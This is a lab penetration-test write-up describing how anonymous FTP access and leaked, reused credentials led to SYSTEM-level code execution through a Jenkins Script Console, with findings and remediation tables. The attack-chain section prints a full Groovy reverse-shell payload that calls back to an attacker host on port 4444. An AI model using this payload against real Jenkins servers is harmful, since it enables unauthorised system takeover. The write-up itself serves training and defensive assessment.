







# Jenkins CI/CD — Anonymous FTP to SYSTEM (Script Console RCE)

**Target:** `192.168.8.50` — FTP (21) & Jenkins (9000)
**Type:** Internal / black-box network penetration test
**Result:** Unauthenticated FTP → leaked admin credentials → Jenkins login → Script Console RCE → `NT AUTHORITY\SYSTEM`
**Tester:** Kelvin Bigson — Junior Penetration Tester, Inveteck Global CyberLab
**Date:** July 23, 2026

> Full formal report: [`Jenkins_Penetration_Test_Report.pdf`](./Jenkins_Penetration_Test_Report.pdf)

---

## TL;DR

A misconfigured FTP server allowed anonymous, unauthenticated access to its file listing. A file named `secret.txt.txt` sitting in the FTP root contained plaintext admin credentials. Those same credentials were reused on the Jenkins web application running on the same host, and once authenticated, the Jenkins **Script Console** was open — letting arbitrary Groovy code run straight on the underlying OS. That's game over: full `SYSTEM`-level remote code execution from a single anonymous FTP session.

```
Anonymous FTP (21) ──► secret.txt.txt (plaintext creds) ──► Jenkins login (9000)
      ──► Script Console (Groovy) ──► reverse shell ──► NT AUTHORITY\SYSTEM
```

## Findings Summary

| # | Finding | Severity | Asset |
|---|---|---|---|
| 1 | Outdated / Unsupported FTP Service Software | Medium | `192.168.8.50:21` |
| 2 | Anonymous FTP Access Permitting Sensitive File Disclosure | High | `192.168.8.50:21` |
| 3 | Plaintext Credential Exposure via Anonymous FTP | High | `192.168.8.50:21` |
| 4 | Credential Reuse Enabling Jenkins Authentication | High | `192.168.8.50:9000` |
| 5 | Remote Code Execution via Jenkins Script Console | **Critical** | `192.168.8.50:9000` |

**1 Critical · 3 High · 1 Medium**

---

## Attack Chain

### 1. Recon

An Nmap sweep of the host turned up two interesting ports: `21` (FTP) and `9000` (Jenkins over HTTP).

### 2. Anonymous FTP access

Connecting to the FTP service, it identified itself as **FileZilla Server 0.9.41 beta** — a long-unsupported release with a publicly documented CPU-exhaustion DoS technique.

```
ftp 192.168.8.50
Name: anonymous
```



Anonymous login was accepted with no password enforcement, and the directory listing was fully browsable.



### 3. Plaintext credentials on the FTP share

A file named `secret.txt.txt` sat in the FTP root, retrievable by anyone. Its contents: an admin username and password, stored in plaintext.



### 4. Credential reuse → Jenkins login

The credentials from `secret.txt.txt` were tried against the Jenkins login page at `192.168.8.50:9000` — and worked, landing an authenticated session with admin-level privileges.



### 5. Script Console → RCE

With admin access, **Manage Jenkins → Script Console** was reachable and would happily execute arbitrary Groovy. A quick sanity check confirmed code execution:

```groovy
println "whoami".execute().text
```



Result: `nt authority\system`.

### 6. Reverse shell

A Groovy payload was used to spawn `cmd.exe` and open a socket back to the attacking host:

```groovy
String host = "192.168.8.143"
int port = 4444
String cmd = "cmd.exe"
Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start()
Socket s = new Socket(host, port)
InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream()
OutputStream po = p.getOutputStream(), so = s.getOutputStream()
while (!s.isClosed()) {
    while (pi.available() > 0) so.write(pi.read())
    while (pe.available() > 0) so.write(pe.read())
    while (si.available() > 0) po.write(si.read())
    so.flush(); po.flush(); Thread.sleep(50)
    try { p.exitValue(); break } catch (Exception e) {}
}
p.destroy(); s.close()
```

A netcat listener on the attack box caught the callback:



...and dropped into an interactive `SYSTEM`-level shell on the Jenkins host:



```
C:\Program Files\Jenkins>whoami
nt authority\system
```

Full compromise of the Jenkins host, confirmed.

---

## Root Causes

- **FTP allowed anonymous authentication** with no restriction on what could be listed or downloaded.
- **Secrets stored in plaintext** on a world-readable share instead of a proper secrets manager.
- **Credential reuse** between an FTP-hosted account and the Jenkins admin login.
- **Jenkins Script Console left open** to an account that never should have had that level of access, with Jenkins itself running with excessive OS-level privileges.

## Remediation

| Finding | Fix |
|---|---|
| Outdated FTP software | Upgrade or replace the FTP service, suppress the version banner, restrict exposure via firewall |
| Anonymous FTP access | Disable anonymous auth entirely; enforce authenticated, least-privilege access; audit exposed files |
| Plaintext credentials | Rotate the exposed credentials immediately; remove plaintext secrets; adopt a secrets manager |
| Credential reuse | Enforce unique credentials per service; centralize identity management with MFA |
| Script Console RCE | Restrict Script Console access via RBAC; run Jenkins under a least-privilege service account; segment the host from the rest of the network |

---

## Methodology

Testing followed a black-box approach with no prior knowledge of the environment, aligned to **NIST SP 800-115** and the **OWASP Testing Guide (v4)**. Findings were rated by CVSS-aligned severity (Critical/High/Medium/Low/Informational), weighing both likelihood and impact.

## Disclaimer

This assessment reflects a point-in-time snapshot of a lab environment. It was conducted for training and portfolio purposes as part of Inveteck Global's CyberLab program.
